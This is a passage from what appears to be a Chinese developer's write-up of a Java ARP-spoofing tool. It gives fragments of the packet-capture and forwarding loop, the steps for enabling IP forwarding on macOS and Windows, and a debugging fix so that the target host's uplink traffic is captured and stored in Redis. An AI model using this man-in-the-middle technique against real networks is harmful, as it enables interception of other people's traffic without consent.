                    EthernetPacket eth = (EthernetPacket) packet.datalink;
                    String macFromCap = eth.getSourceAddress();
                    if(!macFromCap.equalsIgnoreCase(config.getSrcMac())){
                      savePacket(ipPacket, true);
                    }
                  }
                  forward(ipPacket, gateMACBT);
                }
                //如果这个数据包的目的IP地址是目标主机的IP地址，那么说明是下行链路的数据包
                else if(ipPacket.dst_ip.getHostAddress().equals(config.getDestIp())){
                  savePacket(ipPacket, false);
                  forward(ipPacket, dstMACBT);
                }
              }
            }

            //检查是否是ARP包
            if(packet instanceof ARPPacket){
              ....
            }
          }
        }catch (Throwable e){
          ...
        }
      }
    }
  };
  executor.execute(task);
}
```

接下来测试欺骗能否成功，运行程序，并访问请求`attack/startAttack`，此时服务端会开启两个子线程：

1. 一个线程用于发送欺骗包给目标主机和网关，进行欺骗。
2. 一个线程从网卡上抓包，看看能否抓到目标主机访问`filterDomain`的数据包。

首先在目标主机上查看ARP表，判断是否欺骗成功：

![image-20210329191331592](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329191331592.png)

如上图所示，已经成功将目标主机的网关MAC地址修改为了本地主机的MAC地址，因此目标主机发送的数据包都会经过本地主机的网卡。接下来我们在目标主机上访问`filterDomain`，并在服务端开启第二个线程抓包。结果失败了，压根没抓到目标主机的数据包，为什么呢？检查发现目标主机已经不能访问Internet了，发不出包。

既然MAC地址已经是本地主机了，说明目标主机的数据包应该能够发送到本地主机的网卡上，有可能是本地主机的网卡没开启IP转发，因为即使数据包接收到了，程序也调用了转发方法，但是底层的设备不支持IP转发，目标主机仍旧是无法访问Internet的。

所以我们尝试在本地主机上开启IP转发功能：

1. 在MAC上：
   1. 开启IP转发：sudo sysctl -w net.inet.ip.forwarding=1
   2. 查看IP转发已开启（为1）：sudo sysctl -a | grep net.inet.ip.forwarding

2. 在windows上：
   1. 开启IP转发：以管理员身份打开注册表编辑器，定位注册项HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/Tcpip/Parameters，选择项目IPEnableRouter并修改数值为1

![image-20210329192456978](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329192456978.png)

本地主机IP转发开启成功，继续测试：在目标主机上`ping www.baidu.com`，抓到一个从网关发到目标主机的ICMP数据包，我们把它转存入Redis：

![image-20210329193000045](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329193000045.png)

至此基本的攻击算是成功了。

为了后面的数据包分析功能，我决定把数据包存在redis的list结构中，list集合的名称按`batch_id`命名，list中的value就是每个序列化后的数据包实体。

开放攻击，查看前端数据统计，成功抓到了许多数据包。但是很明显有一个问题：只有下行的数据包被抓到了，上行的数据包没有被抓到。

![image-20210329204233419](/Users/huangyucai/Library/Application Support/typora-user-images/image-20210329204233419.png)

我感觉是本地主机开了IP转发的原因，网卡在接收到目标主机访问百度的数据包后，进行IP转发，把源MAC地址修改为了本地主机的MAC地址，然后将数据包转发给网关，所以当数据包的MAC地址为本地主机的MAC地址时，本程序将其过滤掉了。看看问题代码:

```java
//如果这个数据包的源IP地址是目标主机的IP地址，那么说明是上行链路的数据包
if(ipPacket.src_ip.getHostAddress().equals(config.getDestIp())){
  //如果这个数据包的源MAC地址是本地主机的MAC地址，说明这是我自己发送的数据包，需要忽略
  if(ipPacket.datalink instanceof EthernetPacket){
    EthernetPacket eth = (EthernetPacket) ipPacket.datalink;
    String macFromCap = eth.getSourceAddress();
    if(macFromCap.equalsIgnoreCase(config.getDestMac())){//卡在这了
      savePacket(ipPacket, true);
    }
  }
  forward(ipPacket, gateMACBT);
}
```

将MAC地址的限制放开，因为在外层if逻辑中已经明确判断出IP地址是目标主机的IP地址了，那么就不用MAC地址过滤了，把最内层if逻辑删除。重新抓包：抓到了上行链路的数据包，基本上是ping 1个，回应2个。

![image-20210329213112283](https://hyc-pic.oss-cn-hangzhou.aliyuncs.com/image-20210329213112283.png)



#### 5.5.3 停止攻击

点击attack stop按钮后，会向服务器发送请求`/attack/stopAttack`。将标识位`attacking`置为`false`，并返回`batch_id`到前端。前端随即将`batch_id`作为参数向服务器发起请求`analyse/analysisByBatchId?batchId=1`，开始分析数据包。





### 5.6 数据包分析

